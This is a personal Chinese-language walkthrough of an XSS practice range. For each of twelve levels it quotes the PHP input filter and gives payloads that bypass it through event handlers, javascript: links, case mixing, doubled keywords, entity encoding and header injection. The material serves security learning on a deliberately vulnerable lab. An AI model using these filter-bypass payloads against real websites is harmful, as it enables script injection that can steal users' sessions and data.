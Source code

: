 # xss平台练习

> 来源为一个在线靶场：
>
> http://test.ctf8.com/level1.php?name=test

## level1

<script>alert('xss')</script>

## level2

过滤php函数

(PHP 4, PHP 5, PHP 7)

htmlspecialchars — 将特殊字符转换为 HTML 实体

等于<不能用，这时候一种方法是黑名单绕过，就是不使用被过滤的符号，使用js的事件：

![image-20200915193548678](未命名.assets/image-20200915193548678.png)

![image-20200915194446612](未命名.assets/image-20200915194446612.png)

Payload:

"><script>alert(1)</script>

这样value=" "，不会检查我们的弹窗代码

![image-20200915201010853](未命名.assets/image-20200915201010853.png)

## level3

![image-20200915201317764](未命名.assets/image-20200915201317764.png)

Payload: 

' onmouseover=alert(1)//

单引号用来闭合，

### 定义和用法

onmouseover 事件会在鼠标指针移动到指定的对象上时发生。这里指定的就是搜索框了。

## less4

跟3一样，不过要用""进行闭合。

## less5

~~~javascript
$str = strtolower($_GET["keyword"]); //将字符串转化为小写，所以大小写不能绕过
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
~~~

对输入进行了过滤。

但是没有对<>进行过滤，所以我们可以使用伪协议来进行构造

payload:

~~~
"><iframe src=javascript:alert(1)>
"> <a href="javascript:alert(1)">bmjoker</a>
"> <a href="javascript:%61lert(1)">bmjoker</a> //
~~~

iframe 元素会创建包含另外一个文档的内联框架（即行内框架）。

其中第二第三个payload是定义了一个链接，在访问时触发js代码。

## level6

~~~php
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
~~~

这个是它的过滤，过滤很严格，但是发现没有过滤大小写，那么

Payload:

~~~
"> <Script>alert(1)</script> //
"> <img Src=x OnError=alert(1)> //
"><a HrEf="javascript:alert(1)">bmjoker</a>//
"><svg x=" " Onclick=alert(1)>
"><ScriPt>alert(1)<sCrIpt>"
" OncliCk=alert(1) //
~~~

前几关的payload,改变一些大小写就可以使用了。

## level7

~~~php
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
~~~

这个又加了大小写的限制，那么

Payload:

~~~
"><sscriptcript>alert(1)</sscriptcript>
"><a hrhrefef=javascriscriptpt:alert(1)>bmjoker</a>
~~~

我好奇的是标签重复也可以使用吗？

后来才发现script标签被替换成空了，所以正好还是一个这样的标签，最后就成功弹出了。

## level8

![image-20200916210303331](xss平台练习.assets/image-20200916210303331.png)

实体字符绕过：

~~~
javascrip&#x74;:alert(1)
javasc&#x72;ipt:alert`1` 
javasc&#x0072;ipt:alert`1`
~~~

不过值得注入的地方是`竟然可以绕过括号。

## level9

~~~php
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
if(false===strpos($str7,'http://')) //这个是新加的，但是没所谓
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
~~~

> <script>alert('xss')</script>

这个直接全部绕过了，有点蒙。。。然后仔细看了源码发现：

![image-20200916211326753](xss平台练习.assets/image-20200916211326753.png)

Emmmm....

不过正确的绕过方式如下：

~~~
javascrip&#x74;:alert(1)//http://xxx.com //利用注释
javascrip&#x74;:%0dhttp://xxx.com%0dalert(1) //不利用注释
javascrip&#x74;:%0ahttp://xxx.com%0daalert(1) //不利用注释
~~~

## level10

这次加强了对标签的检查：

~~~
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
~~~

![image-20200916213831898](xss平台练习.assets/image-20200916213831898.png)

我们从这里就可以看到，其实是把输入框给隐藏了，其实还是有输入框的。

Pyload:

~~~
keyword = test&t_sort="type="text"onclick="alert(1)
keyword = test&t_sort="type="text" onmouseover="alert(1)
keyword = test&t_sort="type="text" onmouseover=alert`1`
~~~

我们通过闭合然后是的输入框显示出来，然后用js时间就可以出发xss

## level11

http头存在xss,但是觉得如果看不到源码的话，这应该是很难发现的吧。。。emmm

## level12

和level10的payload一样，不过这次的注入点在User-Agent

> 反射型xss比较不是很重要。。。emmm，就先练习到这里啦